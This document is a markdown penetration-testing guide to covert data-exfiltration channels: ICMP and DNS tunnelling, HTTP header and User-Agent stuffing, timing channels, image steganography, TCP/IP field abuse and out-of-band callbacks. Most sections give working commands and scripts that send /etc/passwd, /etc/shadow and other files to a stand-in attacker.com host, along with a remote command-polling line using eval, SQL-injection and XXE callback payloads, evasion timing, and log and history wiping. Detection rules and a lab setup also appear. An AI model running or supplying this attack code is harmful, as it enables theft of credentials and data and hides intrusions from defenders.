

# Covert Channels for Data Exfiltration

> **Difficulty:** Advanced | **Category:** Penetration Testing  
> **MITRE ATT&CK:** [T1048 – Exfiltration Over Alternative Protocol](https://attack.mitre.org/techniques/T1048/)  
> **Related:** `dns-exfiltration.md`, `http-exfiltration.md`, `steganography.md`

---

## 1. Introduction

A **covert channel** is any communication path that was not intended for information transfer by the system's designers. Unlike overt channels (normal TCP/HTTP traffic), covert channels exploit side effects of legitimate protocols, timing behaviours, or storage locations to smuggle data past security controls.

Penetration testers use covert channels to:

- Bypass **Data Loss Prevention (DLP)** solutions that inspect content but ignore headers or timing
- Evade **IDS/IPS** signatures written for known exfiltration tools
- Circumvent egress filtering that whitelists only specific protocols (ICMP, DNS, HTTP/S)
- Demonstrate risk to clients whose monitoring is purely content-focused

### 1.1 Channel Taxonomy

| Category | Mechanism | Examples |
|---|---|---|
| **Storage Channel** | Data encoded in a storage location or protocol field | DNS labels, HTTP headers, IP ID field, image pixels |
| **Timing Channel** | Data encoded in the timing or ordering of events | Inter-request delay, TCP ACK timing, NTP jitter |
| **Side Channel** | Observing resource usage to infer secrets (not typically used for exfil) | CPU cache, power analysis |

### 1.2 Overt vs Covert vs Side Channels

- **Overt channel** — legitimate, intended communication path (TCP port 443 to the internet)
- **Covert channel** — unintended path; exploits protocol features or timing to encode secret data
- **Side channel** — infers secrets by observing physical or computational side effects (not covered here)

> **Note:** Many DLP appliances perform deep-packet inspection on HTTP/S but completely ignore ICMP payloads, DNS query names, or statistical timing patterns. These blind spots are what covert channels exploit.

### 1.3 Threat Model

```
[Victim Host] ──ICMP/DNS/HTTP──► [Egress Firewall / DLP] ──► [Internet]
                                        │
                               ┌────────┴────────┐
                               │ Content Inspect │   ← misses timing & header tricks
                               └─────────────────┘
```

---

## 2. ICMP Tunneling

### 2.1 How It Works

The **Internet Control Message Protocol (ICMP)** is used for diagnostics (ping, traceroute). Firewalls routinely permit ICMP Echo Request/Reply outbound because it is needed for basic connectivity checks.

- Standard `ping` payload: 32–64 bytes
- ICMP allows up to **65,507 bytes** of payload data
- Malicious actors embed arbitrary data in the ICMP Data field — it transits firewalls silently

```
 ┌──────────────────────────────────────────────────────────┐
 │  IP Header  │  ICMP Header (Type=8, Code=0)  │  DATA ◄── secret bytes here
 └──────────────────────────────────────────────────────────┘
```

### 2.2 Manual ICMP Exfiltration with nping

```bash
# --- Attacker side: capture all ICMP traffic ---
tcpdump -i eth0 icmp -w icmp_capture.pcap

# Extract payloads from capture
tshark -r icmp_capture.pcap -T fields -e data.data | xxd -r -p

# --- Victim side: embed data in ICMP echo request ---
# Send a single string
nping --icmp -c 1 --data-string "secret_data_here" attacker.com

# Send file contents in chunks (max ~1400 bytes per packet for safe MTU)
split -b 1400 sensitive.txt icmp_chunk_
for f in icmp_chunk_*; do
  nping --icmp -c 1 --data-string "$(cat $f)" attacker.com
  sleep 1
done

# Using ping with hex-encoded payload (Linux)
ping -c 1 -p "$(printf '%s' 'secret' | xxd -p | head -c 32)" attacker.com
```

> **Warning:** `nping` requires root or `CAP_NET_RAW`. On hardened hosts, use `ptunnel-ng` which can run via a setuid helper.

### 2.3 icmptunnel — Full IP-over-ICMP Tunnel

[icmptunnel](https://github.com/jamesbarlow/icmptunnel) wraps raw IP frames inside ICMP payloads, creating a point-to-point tunnel.

```bash
# --- Attacker (server) ---
git clone https://github.com/jamesbarlow/icmptunnel && cd icmptunnel && make
./icmptunnel -s                    # listen for incoming ICMP connections
ip addr add 10.0.0.1/24 dev tun0
ip link set tun0 up

# --- Victim (client) ---
./icmptunnel attacker.com
ip addr add 10.0.0.2/24 dev tun0
ip link set tun0 up
ip route add 0.0.0.0/0 via 10.0.0.1  # route ALL traffic through ICMP

# Now SSH, curl, or anything else transits through ICMP
ssh user@attacker.com
```

### 2.4 ptunnel-ng — Feature-Rich ICMP Tunnel

[ptunnel-ng](https://github.com/lnslbrty/ptunnel-ng) supports authentication, multiple concurrent connections, and statistics.

```bash
# --- Server (attacker) ---
ptunnel-ng -R                      # run as relay/server

# --- Client (victim): forward local port 2222 → SSH on internal host ---
ptunnel-ng -p attacker.com -lp 2222 -da 10.10.10.5 -dp 22

# Now connect SSH through the ICMP tunnel
ssh -p 2222 root@127.0.0.1

# Forward SOCKS5 proxy through ICMP
ptunnel-ng -p attacker.com -lp 1080 -da 127.0.0.1 -dp 1080
```

### 2.5 ICMP Detection Indicators

| Indicator | Description |
|---|---|
| Oversized ICMP payload | Normal ping payloads are 32–64 bytes; tunnel payloads are 1000+ bytes |
| High ICMP rate | More than a few pings/sec from a single host is unusual |
| Non-sequential ICMP IDs | Tunnels reuse or manipulate ICMP sequence numbers |
| ICMP from unexpected processes | `lsof` shows `icmptunnel` or `ptunnel-ng` process |
| Asymmetric ICMP traffic | Victim sends far more ICMP than it receives |

---

## 3. HTTP Steganography

When HTTPS egress is permitted (and it almost always is), HTTP headers, cookies, and query parameters offer excellent covert storage. DLP solutions often inspect HTTP body content but overlook header values.

### 3.1 Custom Header Exfiltration

```bash
# Encode file and ship it in a custom header (one shot for small files)
DATA=$(base64 -w0 /etc/passwd)
curl -s -H "X-Request-ID: ${DATA}" https://attacker.com/api/health

# Cookie-based exfil (4096-byte cookie limit per domain in most browsers,
# but no limit for raw curl/wget requests)
curl -s -b "session=$(base64 -w0 sensitive.txt | tr -d '\n' | head -c 4000)" \
     https://attacker.com/

# Query parameter exfil (URL-safe base64)
B64=$(base64 -w0 small_file.txt | tr '+/' '-_' | tr -d '=')
curl -s "https://attacker.com/analytics?id=${B64}&ref=organic"
```

### 3.2 Chunked Exfiltration Loop

```bash
# Split large file into 2 KB chunks, send each as a header value
split -b 2000 /etc/shadow chunk_
CHUNK_NUM=0
for chunk in chunk_*; do
  B64=$(base64 -w0 "$chunk")
  curl -s \
    -H "X-Trace-ID: ${B64}" \
    -H "X-Chunk-Index: ${CHUNK_NUM}" \
    https://attacker.com/api/track
  CHUNK_NUM=$((CHUNK_NUM + 1))
  sleep 2   # rate-limit to avoid triggering anomaly detection
done
rm -f chunk_*
```

### 3.3 User-Agent Encoding

```bash
# Embed small data payload in User-Agent (often logged but rarely inspected deeply)
SECRET=$(cat /etc/hostname | base64 -w0)
curl -s -A "Mozilla/5.0 (${SECRET}) AppleWebKit/537.36 (KHTML, like Gecko)" \
     https://attacker.com/

# Rotate through fake UAs while carrying data in a field that varies
for i in $(seq 1 5); do
  DATA_CHUNK=$(dd if=sensitive.txt bs=50 count=1 skip=$i 2>/dev/null | base64 -w0)
  curl -s -A "Googlebot/2.1 (+${DATA_CHUNK})" https://attacker.com/robots.txt
  sleep 3
done
```

### 3.4 HTTP Response Steganography (Attacker-Controlled Page)

When the attacker controls a web page the victim's browser visits (e.g., a phishing page, a poisoned ad), data can be transmitted from attacker → victim:

- **HTML comments**: `<!-- 5f4dcc3b5aa765d61d8327de -->`
- **Zero-width characters**: embed binary data as `\u200b` (ZWSP) and `\u200c` (ZWNJ) between visible characters
- **CSS class names**: encode bits as class names that appear on DOM elements
- **White-on-white text**: hidden `<span style="color:white">data</span>` inside page body

> **Note:** HTTP response steganography is primarily a C2 channel technique (attacker → victim) rather than an exfiltration technique. It is included here for completeness and because many engagements require demonstrating bidirectional covert channels.

---

## 4. DNS Steganography

> Full DNS tunneling (dnscat2, iodine) is covered in `dns-exfiltration.md`. This section covers lightweight manual techniques.

### 4.1 Subdomain Label Encoding

```bash
# Encode /etc/passwd as base32, split into 30-char labels, query each
DATA=$(cat /etc/passwd | base32 | tr -d '=' | tr '[:upper:]' '[:lower:]')

echo "$DATA" | fold -w 30 | nl -ba | while read idx chunk; do
  # prepend index so attacker can reassemble in order
  dig +short +timeout=3 "${idx}.${chunk}.exfil.attacker.com" @attacker.com A
  sleep 0.5
done
```

### 4.2 DNS TXT Record Channel

```bash
# On attacker's authoritative DNS server (PowerDNS / BIND), serve TXT records
# containing C2 instructions. Victim polls regularly.

# Victim polls for commands
RESPONSE=$(dig +short TXT cmd.attacker.com | tr -d '"')
eval "$RESPONSE"   # WARNING: only in a lab — extremely dangerous

# Exfil via TXT query (some resolvers allow long TXT query names)
OUTPUT=$(whoami; hostname; ip addr show | head -20)
ENCODED=$(echo "$OUTPUT" | base64 -w0 | tr '+/' '-_' | tr -d '=')
echo "$ENCODED" | fold -w 63 | while read label; do
  dig +short "${label}.data.attacker.com" TXT @attacker.com
  sleep 1
done
```

### 4.3 DNS Limits to Remember

| Constraint | Limit |
|---|---|
| Single label (subdomain segment) | 63 characters |
| Total FQDN length | 253 characters |
| Usable bytes per query (base32 encoded, 63-char label) | ~39 raw bytes |
| DNS UDP payload (traditional) | 512 bytes |
| DNS with EDNS0 extension | up to 4096 bytes |

---

## 5. Timing Channels

Timing channels encode information in the **interval between events** rather than in content. They are nearly invisible to signature-based IDS/IPS and DLP because no anomalous payload is ever transmitted.

### 5.1 TCP Timing Channel (Python)

```python
#!/usr/bin/env python3
"""
timing_exfil.py — encode data in inter-packet timing over a legitimate TCP connection.
Run the receiver (server.py) on attacker.com port 80 first.
"""
import socket
import time

DELAY_ZERO = 0.1   # seconds representing bit '0'
DELAY_ONE  = 0.5   # seconds representing bit '1'
SAMPLE_RATE = 0.05 # receiver sampling interval

def send_bit(sock: socket.socket, bit: str):
    delay = DELAY_ONE if bit == '1' else DELAY_ZERO
    time.sleep(delay)
    sock.sendall(b'\x00')   # dummy byte to keep connection alive

def send_byte(sock: socket.socket, byte: int):
    for bit in format(byte, '08b'):
        send_bit(sock, bit)

def send_message(host: str, port: int, message: bytes):
    with socket.create_connection((host, port), timeout=10) as s:
        # Send sync preamble: 0xAA = 10101010
        send_byte(s, 0xAA)
        send_byte(s, 0xAA)
        for b in message:
            send_byte(s, b)
        # Send end-of-message marker: 0xFF
        send_byte(s, 0xFF)

if __name__ == '__main__':
    import sys
    host  = sys.argv[1] if len(sys.argv) > 1 else 'attacker.com'
    msg   = sys.argv[2].encode() if len(sys.argv) > 2 else b'secret'
    print(f"[*] Sending {len(msg)} bytes via timing channel to {host}")
    send_message(host, 80, msg)
    print("[+] Done")
```

### 5.2 Receiver (Attacker Side)

```python
#!/usr/bin/env python3
"""
timing_recv.py — reconstruct data from inter-packet timing.
"""
import socket
import time

THRESHOLD = 0.3   # above = '1', below = '0'
PORT = 80

def receive_message():
    srv = socket.socket()
    srv.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    srv.bind(('0.0.0.0', PORT))
    srv.listen(1)
    print(f"[*] Listening on port {PORT}")
    conn, addr = srv.accept()
    print(f"[+] Connection from {addr}")
    bits = []
    last_time = time.time()
    conn.settimeout(2.0)
    try:
        while True:
            conn.recv(1)
            now = time.time()
            delta = now - last_time
            last_time = now
            bits.append('1' if delta > THRESHOLD else '0')
    except socket.timeout:
        pass
    # Strip sync preamble (first 16 bits = 0xAA 0xAA) and decode
    bits = bits[16:]
    message = bytearray()
    for i in range(0, len(bits) - 8, 8):
        byte = int(''.join(bits[i:i+8]), 2)
        if byte == 0xFF:
            break
        message.append(byte)
    return message

if __name__ == '__main__':
    data = receive_message()
    print(f"[+] Received: {data.decode(errors='replace')}")
```

### 5.3 HTTP Request Timing Channel

```bash
# Encode data in inter-request delay:
# short gap (~100ms) = bit 0, long gap (~500ms) = bit 1

encode_bit() {
  local bit=$1
  if [ "$bit" = "1" ]; then
    sleep 0.5
  else
    sleep 0.1
  fi
  curl -s https://attacker.com/pixel.gif > /dev/null
}

encode_byte() {
  local byte=$1
  for i in 7 6 5 4 3 2 1 0; do
    bit=$(( (byte >> i) & 1 ))
    encode_bit "$bit"
  done
}

# Send the string "HI"
encode_byte 72   # 'H' = 0x48
encode_byte 73   # 'I' = 0x49
```

### 5.4 NTP Timing Channel

Some environments allow NTP (UDP/123). By modulating the originate timestamp field or the inter-request interval, a covert channel can be established.

```python
import ntplib
import time

# Use inter-request interval to encode bits
# 0.1s gap = '0', 0.5s gap = '1'
c = ntplib.NTPClient()
for bit in '01001000':  # 'H'
    c.request('attacker.com', version=3)
    time.sleep(0.1 if bit == '0' else 0.5)
```

> **Note:** Timing channels suffer from **network jitter**. In noisy networks, bit error rates are high. Implement checksums or use Manchester encoding with larger timing windows for reliability.

---

## 6. Steganography in Images

**Steganography** hides data within innocuous cover media. An image containing embedded secrets looks identical to the human eye.

### 6.1 steghide — JPEG/BMP Steganography

```bash
# Embed a file inside a JPEG
steghide embed \
  -cf cover_photo.jpg \
  -sf /etc/shadow \
  -p "S3cr3tP@ss!" \
  -sf-overwrite

# Verify embedding (attacker side)
steghide info cover_photo.jpg

# Extract on attacker machine
steghide extract -sf cover_photo.jpg -p "S3cr3tP@ss!" -f

# Embed without password prompt (automated pipelines)
steghide embed -cf cover.jpg -sf data.txt -p "pass" -f -q
```

### 6.2 LSB Steganography with Python (PIL)

**Least Significant Bit** encoding modifies the last bit of each red channel pixel value. A 1-megapixel image can hold ~125 KB of hidden data.

```python
#!/usr/bin/env python3
"""lsb_stego.py — LSB steganography using Pillow."""
from PIL import Image
import sys

STOP_MARKER = '1111111111111110'

def encode(image_path: str, message: str, output_path: str):
    img = Image.open(image_path).convert('RGB')
    binary_msg = ''.join(format(ord(c), '08b') for c in message) + STOP_MARKER
    pixels = list(img.getdata())

    if len(binary_msg) > len(pixels):
        raise ValueError("Message too long for this cover image")

    new_pixels = []
    for i, pixel in enumerate(pixels):
        if i < len(binary_msg):
            r = (pixel[0] & ~1) | int(binary_msg[i])
            new_pixels.append((r, pixel[1], pixel[2]))
        else:
            new_pixels.append(pixel)

    out = Image.new('RGB', img.size)
    out.putdata(new_pixels)
    out.save(output_path, 'PNG')
    print(f"[+] Encoded {len(message)} chars into {output_path}")

def decode(image_path: str) -> str:
    img = Image.open(image_path).convert('RGB')
    bits = ''.join(str(p[0] & 1) for p in img.getdata())
    chars = []
    for i in range(0, len(bits) - 8, 8):
        byte = bits[i:i+8]
        if bits[i:i+16] == STOP_MARKER:
            break
        chars.append(chr(int(byte, 2)))
    return ''.join(chars)

if __name__ == '__main__':
    if sys.argv[1] == 'encode':
        encode(sys.argv[2], open(sys.argv[3]).read(), sys.argv[4])
    elif sys.argv[1] == 'decode':
        print(decode(sys.argv[2]))
```

```bash
# Usage
python3 lsb_stego.py encode cover.png secret.txt stego_output.png
python3 lsb_stego.py decode stego_output.png
```

### 6.3 zsteg — PNG Steganography Analysis

```bash
# Install
gem install zsteg

# Analyse all LSB channels
zsteg suspicious.png

# Target specific channel
zsteg -c rgb -b 1 suspicious.png

# Extract data from a known channel
zsteg -E b1,rgb,lsb,xy suspicious.png > extracted.bin
```

### 6.4 stegoveritas — Automated Stego Detection

```bash
pip install stegoveritas
stegoveritas_install_deps   # installs steghide, exiftool, etc.

# Analyse image — outputs to ./results/
stegoveritas cover_photo.jpg

# Analyse with known password attempt
stegoveritas -steghide -wordlist /usr/share/wordlists/rockyou.txt cover_photo.jpg
```

### 6.5 Delivery of Steganographic Images

| Method | Notes |
|---|---|
| Upload to Imgur / Flickr | Public CDN; image survives unless flagged |
| Email attachment | Often allowed through DLP if the image is "benign" |
| Embed `` in a web page | Browser fetches silently |
| Post to a social media account | Attacker pulls by scraping public posts |
| Upload to Slack / Teams | Bypasses many email DLP controls |

> **Warning:** Some social media platforms (Facebook, Twitter/X, Instagram) **re-encode** uploaded images (JPEG recompression), which destroys LSB steganography. Use PNG with lossless platforms or steghide's error-correction mode.

---

## 7. Protocol Abuse / Field Stuffing

TCP/IP headers contain several fields that can carry covert data without altering the packet payload.

### 7.1 Exploitable Header Fields

| Field | Size | Notes |
|---|---|---|
| IP Identification (IP ID) | 16 bits | Used for fragmentation; often monotonically incremented, easy to manipulate |
| TCP Initial Sequence Number (ISN) | 32 bits | Set at connection time; can encode 4 bytes per SYN packet |
| IP Time-To-Live (TTL) | 8 bits | Normal values 64/128/255; small variations encode data |
| TCP Urgent Pointer | 16 bits | Rarely used; completely covert if URG flag is not set |
| IPv4 Reserved Bit (Evil Bit) | 1 bit | RFC 3514; always 0 in legitimate traffic |
| IPv4 DSCP / ECN | 6+2 bits | Differentiated services field is often ignored |

### 7.2 covert_tcp Tool

```bash
# Clone and compile
git clone https://github.com/cudeso/security-tools && cd security-tools
gcc -o covert_tcp covert_tcp.c

# --- Receiver (attacker) — must be started first ---
sudo ./covert_tcp \
  -source 203.0.113.1 \    # attacker IP
  -server \
  -dest_port 80 \
  -file received.txt

# --- Sender (victim) — encode file in TCP ISN ---
sudo ./covert_tcp \
  -source 192.168.1.50 \
  -dest 203.0.113.1 \
  -source_port 1337 \
  -dest_port 80 \
  -file /etc/passwd
```

Each byte of the secret file is embedded in bits 24–31 of the **TCP Initial Sequence Number**. The packet's payload is empty — the channel is invisible to payload-based DLP.

### 7.3 IP ID Channel (Manual Python)

```python
#!/usr/bin/env python3
"""ipid_channel.py — encode one byte per SYN packet in the IP ID field."""
from scapy.all import IP, TCP, send
import sys, time

def send_byte(dst: str, byte: int, dport: int = 80):
    pkt = IP(dst=dst, id=byte) / TCP(dport=dport, flags='S')
    send(pkt, verbose=False)
    time.sleep(0.2)

def exfil(dst: str, data: bytes):
    for b in data:
        send_byte(dst, b)
    send_byte(dst, 0xFF)   # EOF marker

if __name__ == '__main__':
    exfil(sys.argv[1], sys.argv[2].encode())
```

```bash
sudo python3 ipid_channel.py attacker.com "secret"
```

---

## 8. Out-of-Band (OOB) Channels for Blind Exploitation

OOB channels do not always exfiltrate large datasets — they confirm vulnerability and leak small amounts of data (usernames, hostnames, environment variables) via a back-channel.

### 8.1 DNS OOB

```bash
# Classic blind command injection confirmation
curl "https://target.com/ping?host=\$(whoami).attacker.com"

# Manual nslookup OOB
nslookup $(whoami).$(hostname).oob.attacker.com

# Combining multiple values
nslookup $(id | sed 's/[^a-zA-Z0-9]/-/g').oob.attacker.com

# SQLi DNS OOB (MSSQL)
'; EXEC master..xp_dirtree '\\attacker.com\share';--

# SQLi DNS OOB (MySQL — requires FILE privilege)
SELECT LOAD_FILE(CONCAT('\\\\', (SELECT user()), '.attacker.com\\x'));
```

### 8.2 HTTP OOB

```bash
# Simple HTTP OOB for command injection
curl http://attacker.com/$(id | base64 -w0)

# SSRF → OOB (probe internal metadata)
curl "https://target.com/fetch?url=http://attacker.com/ssrf-hit"

# XXE OOB
# In XML payload:
# <!DOCTYPE foo [<!ENTITY xxe SYSTEM "http://attacker.com/xxe?data=SECRET">]>
```

### 8.3 interactsh (Open Source Burp Collaborator Alternative)

```bash
# Install
go install -v github.com/projectdiscovery/interactsh/cmd/interactsh-client@latest

# Start client — generates a unique callback domain
interactsh-client -v
# Output: [INF] Listening on c1abc2de3f.interactsh.com

# Use the generated domain in payloads
curl "https://target.com/rce?cmd=$(curl+http://c1abc2de3f.interactsh.com/\$(id|base64))"

# DNS OOB with interactsh
nslookup $(cat /etc/passwd | head -1 | base64 | tr -d '=').c1abc2de3f.interactsh.com
```

### 8.4 Canarytokens.org (Unauthenticated Quick-Start)

```bash
# Generate a DNS/HTTP canarytoken at canarytokens.org
# Use the generated token URL in payloads:
curl "https://target.com/ssrf?url=http://mytoken.canarytokens.org/x"

# Email canarytoken as XXE entity
```

> **Note:** Burp Collaborator is the professional standard for OOB during engagements. It provides DNS, HTTP, SMTP, and HTTPS callbacks and logs full request details, including payloads.

---

## 9. Detection Indicators for Covert Channels

The following table maps each covert channel to its detection method, observable indicator, and network signature.

| Channel | Detection Method | Indicator of Compromise (IOC) | Network Signature / Rule |
|---|---|---|---|
| **ICMP Tunnel** | Payload size analysis | ICMP Data field > 100 bytes | `alert icmp any any -> any any (dsize:>100; msg:"Oversized ICMP";)` |
| **ICMP Rate** | Traffic baseline deviation | >10 ICMP packets/sec from one host | Threshold alert in Zeek/Suricata |
| **DNS Subdomain** | Label entropy & length | Subdomain label > 40 chars, high entropy | `alert dns any any -> any 53 (dns.query; content:".exfil."; msg:"DNS exfil domain";)` |
| **DNS Rate** | Query frequency to single domain | >100 queries/min to same apex domain | DNS analytics in SIEM |
| **HTTP Custom Headers** | Header name allowlist | Non-standard headers (X-Trace-ID, X-Request-ID with large values) | WAF rule: header value length > 500 |
| **HTTP Cookie Size** | Cookie length monitoring | Cookie header > 2 KB | Proxy policy alert |
| **HTTP User-Agent** | UA entropy & anomaly | User-Agent with base64 padding (`==`) | Regex: `User-Agent:.*[A-Za-z0-9+/]{50,}={0,2}` |
| **TCP ISN Channel** | ISN entropy analysis | Low-entropy sequential ISN values | Zeek: `ConnEstab` ISN delta analysis |
| **Timing Channel** | Statistical inter-packet analysis | Bimodal distribution of IAT (inter-arrival time) | ML-based UEBA; hard for signature detection |
| **LSB Steganography** | File entropy, metadata | Unexpected file size increase, no EXIF data | Stego detection tools (stegdetect, stegoveritas) |
| **ICMP TTL encoding** | TTL deviation monitoring | TTL values that don't match expected OS fingerprint | Baseline TTL tracking in Zeek |

---

## 10. Covert Channel Bandwidth Comparison

| Channel | Theoretical Max | Practical Speed | Stealth Level | Implementation Difficulty |
|---|---|---|---|---|
| ICMP Tunnel (icmptunnel) | ~1 Mbps | 50–200 Kbps | Medium | Low |
| DNS Tunnel (iodine) | ~100 Kbps | 3–30 Kbps | High | Low |
| DNS Tunnel (dnscat2) | ~50 Kbps | 1–10 Kbps | High | Low |
| HTTP Header Stuffing | ~10 KB/req | 5–50 KB/s | High | Very Low |
| TCP ISN Channel (covert_tcp) | ~1 byte/packet | 1–5 bytes/sec | Very High | Medium |
| Timing Channel (binary) | ~2 bits/sec | 0.5–2 bits/sec | Extremely High | High |
| LSB Steganography (JPEG) | 125 KB/image | Manual upload speed | Very High | Low |
| ICMP Timing | ~5 bits/sec | 1–3 bits/sec | Very High | High |
| NTP Timestamp | ~8 bytes/req | <1 byte/sec | Extremely High | Very High |

> **Note:** There is a fundamental trade-off between **bandwidth** and **stealth**. Timing channels offer near-undetectable exfiltration but transfer data at a trickle. Choose the channel based on the sensitivity of data and the maturity of the target's monitoring.

---

## 11. Tools Summary

| Tool | Channel Type | Platform | Source / Install | Primary Use Case |
|---|---|---|---|---|
| **nping** | ICMP (manual) | Linux/Windows | `apt install nmap` | Manual ICMP payload injection |
| **icmptunnel** | ICMP tunnel | Linux | GitHub: jamesbarlow/icmptunnel | Full IP-over-ICMP tunnel |
| **ptunnel-ng** | ICMP tunnel | Linux/macOS | `apt install ptunnel-ng` | Feature-rich ICMP tunnel with auth |
| **dnscat2** | DNS tunnel | Linux/macOS/Windows | GitHub: iagox86/dnscat2 | Encrypted DNS C2 + exfil |
| **iodine** | DNS tunnel | Linux/macOS | `apt install iodine` | IP-over-DNS tunnel |
| **covert_tcp** | TCP header (ISN) | Linux | GitHub: cudeso/security-tools | Steganographic TCP ISN channel |
| **scapy** | Any protocol | Linux/macOS/Windows | `pip install scapy` | Custom packet crafting |
| **steghide** | Image (JPEG/BMP) | Linux/Windows | `apt install steghide` | Embed files in images |
| **zsteg** | Image (PNG) | Linux/macOS | `gem install zsteg` | PNG stego detection & extraction |
| **stegoveritas** | Image (multi-format) | Linux | `pip install stegoveritas` | Automated stego analysis |
| **interactsh-client** | DNS/HTTP OOB | Linux/macOS/Windows | `go install projectdiscovery/interactsh` | OOB callback for blind vulns |
| **Burp Collaborator** | DNS/HTTP/SMTP OOB | Cross-platform | Burp Suite Professional | Professional OOB testing |
| **canarytokens.org** | DNS/HTTP OOB | Web / Cross-platform | canarytokens.org | Quick unauthenticated OOB tokens |

---

## 12. Mermaid: Covert Channel Taxonomy

```mermaid
graph TD
    A[Covert Channels] --> B[Storage Channels]
    A --> C[Timing Channels]
    A --> D[OOB Channels]

    B --> B1[Network Protocol Fields]
    B --> B2[Application Layer]
    B --> B3[File Steganography]

    B1 --> B1a[ICMP Payload\nicmptunnel · ptunnel-ng · nping]
    B1 --> B1b[TCP ISN / IP ID\ncovert_tcp · scapy]
    B1 --> B1c[TTL / DSCP Fields\nmanual with scapy]

    B2 --> B2a[DNS Labels\ndnscat2 · iodine · manual dig]
    B2 --> B2b[HTTP Headers / Cookies\ncurl · python requests]
    B2 --> B2c[HTTP User-Agent\ncurl -A]

    B3 --> B3a[Image LSB\nsteghide · PIL · zsteg]
    B3 --> B3b[Audio LSB\nDeepSound · mp3stego]
    B3 --> B3c[Document Metadata\nexiftool · python-docx]

    C --> C1[TCP Inter-Packet Timing\ncustom Python]
    C --> C2[HTTP Request Interval\ncustom bash/Python]
    C --> C3[NTP Timestamp Modulation\nntplib]
    C --> C4[ICMP Echo Timing\nnping + scripting]

    D --> D1[DNS Callback\ninteractsh · Burp Collaborator]
    D --> D2[HTTP Callback\ninteractsh · ngrok · Burp]
    D --> D3[SMTP Callback\nBurp Collaborator]
    D --> D4[SSRF-Induced OOB\nSSRF → attacker server]
```



---

## 13. Attack Flow: End-to-End ICMP Exfiltration



---

## 14. Operational Considerations

### 14.1 Choosing the Right Channel

```
START
  │
  ├─ Is HTTPS egress allowed?
  │     YES → HTTP Header Stuffing (easiest, high bandwidth)
  │     NO  ─┐
  │          ├─ Is ICMP allowed outbound?
  │          │     YES → ICMP Tunnel (ptunnel-ng / icmptunnel)
  │          │     NO  ─┐
  │          │          ├─ Is DNS resolution to external servers allowed?
  │          │          │     YES → DNS Tunnel (iodine / dnscat2)
  │          │          │     NO  → Timing Channel or Physical exfil
  │          │          └───────────────────────────────────────────
  │          └──────────────────────────────────────────────────────
  └─────────────────────────────────────────────────────────────────
```

### 14.2 Rate Limiting and Jitter

Always introduce randomised sleep intervals to avoid triggering threshold-based alerts.

```bash
# Randomised sleep between 1 and 5 seconds
jitter_sleep() {
  sleep $(awk "BEGIN{srand(); print 1 + int(rand() * 4)}")
}

for chunk in chunk_*; do
  curl -s -H "X-Request-ID: $(base64 -w0 $chunk)" https://attacker.com/api
  jitter_sleep
done
```

### 14.3 Data Preparation Best Practices

```bash
# Compress before encoding to increase effective bandwidth
tar czf - /etc/passwd /etc/shadow /home \
  | base64 -w0 \
  | split -b 1000 - exfil_chunk_

# Encrypt before sending for confidentiality
tar czf - sensitive_dir/ \
  | openssl enc -aes-256-cbc -pbkdf2 -pass pass:"AttackerPass1!" \
  | base64 -w0 \
  | split -b 1400 - enc_chunk_
```

### 14.4 Clean-Up on Victim Host

```bash
# Remove evidence after exfil
rm -f chunk_* enc_chunk_* exfil_chunk_*
history -c
unset HISTFILE
# Clear bash history file
cat /dev/null > ~/.bash_history
# Clear syslog references (if root)
sed -i '/nping\|icmptunnel\|ptunnel/d' /var/log/syslog 2>/dev/null
```

> **Warning:** Clearing logs may itself be an IOC in environments with log forwarding (SIEM). If logs are forwarded in real-time, clearing them on-host does not remove attacker activity from the SIEM. Always verify whether syslog/auditd is forwarding before performing host-side cleanup.

---

## 15. Lab Setup

To practise these techniques safely:

```bash
# Minimal lab: two VMs on an isolated NAT network
# VM1 = Kali (attacker), VM2 = Ubuntu (victim)
# Block all non-ICMP traffic between VMs with iptables to simulate firewall

# On router/gateway VM:
iptables -I FORWARD -p tcp -j DROP
iptables -I FORWARD -p udp -j DROP
iptables -I FORWARD -p icmp -j ACCEPT

# Confirm only ICMP passes:
# From victim: ping attacker works; curl/dig fails
ping -c 3 <attacker_ip>       # should succeed
curl http://<attacker_ip>/    # should fail (Connection refused / timeout)
dig google.com @8.8.8.8       # should timeout

# Then test icmptunnel:
# Attacker: ./icmptunnel -s && ifconfig tun0 10.0.0.1/24
# Victim:   ./icmptunnel <attacker_ip> && ifconfig tun0 10.0.0.2/24
# Victim:   curl http://10.0.0.1/  # should now work through ICMP
```

---

## References

- MITRE ATT&CK T1048: <https://attack.mitre.org/techniques/T1048/>
- RFC 4949 – Internet Security Glossary (covert channel definition)
- RFC 3514 – The Security Flag in the IPv4 Header (the "Evil Bit")
- icmptunnel: <https://github.com/jamesbarlow/icmptunnel>
- ptunnel-ng: <https://github.com/lnslbrty/ptunnel-ng>
- dnscat2: <https://github.com/iagox86/dnscat2>
- iodine: <https://github.com/yarrick/iodine>
- interactsh: <https://github.com/projectdiscovery/interactsh>
- covert_tcp: <https://github.com/cudeso/security-tools>
- zsteg: <https://github.com/zed-0xff/zsteg>
- stegoveritas: <https://github.com/bannsec/stegoveritas>
- "Covert Channels in the TCP/IP Protocol Suite" – Craig Rowland (1996)
- "Network Covert Channels" – Steffen Wendzel et al. (2015)
